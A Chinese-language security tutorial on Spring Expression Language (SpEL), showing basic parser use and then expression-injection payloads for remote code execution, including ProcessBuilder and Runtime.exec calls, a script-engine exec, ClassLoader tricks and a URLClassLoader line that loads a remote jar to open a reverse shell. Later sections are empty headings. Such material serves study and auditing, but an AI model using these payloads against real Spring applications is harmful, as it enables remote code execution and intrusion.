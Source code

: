 ### SpEL表达式的基本使用

#### 简介

* Spring表达式语言（简称 **SpEL**，全称**Spring Expression Language**）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。
* SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

#### Spel实现RCE

**基本使用：**

```java
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression("'Hello World'.concat('!')");//解析表达式
System.out.println( exp.getValue() );//取值，Hello World！
```



**自定义注册加载变量：**

```java
public class Spel {
    public String name = "何止";
    public static void main(String[] args) {
        Spel user = new Spel();
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("user",user);//通过StandardEvaluationContext注册自定义变量
        SpelExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression expression = parser.parseExpression("#user.name");//解析表达式
        System.out.println( expression.getValue(context).toString() );//取值,输出何止
    }
}
```



**调用命令执行方法：**

```java
String cmdStr = "new java.lang.ProcessBuilder(\"calc\").start()"; // java.lang下的类可以省略包名 
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression(cmdStr);//解析表达式
System.out.println( exp.getValue() );//弹出计算器
```

```java
//  SpEL、OGNL、MVEL等表达式均设计为在访问静态类时，使用T()显示表明这是一个静态类
String cmdStr = "T(java.lang.Runtime).getRuntime().exec(\"open /System/Applications/Calculator.app\")";
```

```java
String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";  // 利用JavaScript引擎，这里JavaScript可替换为nashorn
```

**通过类加载器加载class实现RCE：**

```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333") //反弹shell
```

```java
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.Runtime\").getRuntime().exec(\"calc\")";
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.ProcessBuilder\").getConstructors()[1].newInstance(new String[]{\"calc\"}).start()";
// 这里得先获取AppClassLoader，可以通过其他类获取T(org.springframework.expression.Expression).getClass().getClassLoader()
```

#### 上下文环境

从前面自定义注册加载变量的代码中可以看出，SpEL表达式是由一个上下文环境的概念的

#### 在Spring中的使用

#### 分析过程

* 执行过程
* T()的分析

### SpEL表达式的常见利用语句

### SpEL相关漏洞分析

### SpEL表达式注入审计